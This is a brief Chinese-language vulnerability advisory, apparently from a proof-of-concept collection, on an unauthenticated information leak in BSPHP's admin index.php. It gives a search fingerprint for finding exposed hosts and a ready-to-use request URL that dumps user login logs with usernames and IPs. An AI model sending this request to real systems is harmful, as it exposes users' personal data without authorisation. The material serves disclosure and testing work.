

# BSPHP index.php 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

```
BSPHP
```

## 网络测绘

```
"BSPHP"
```

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```plain
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

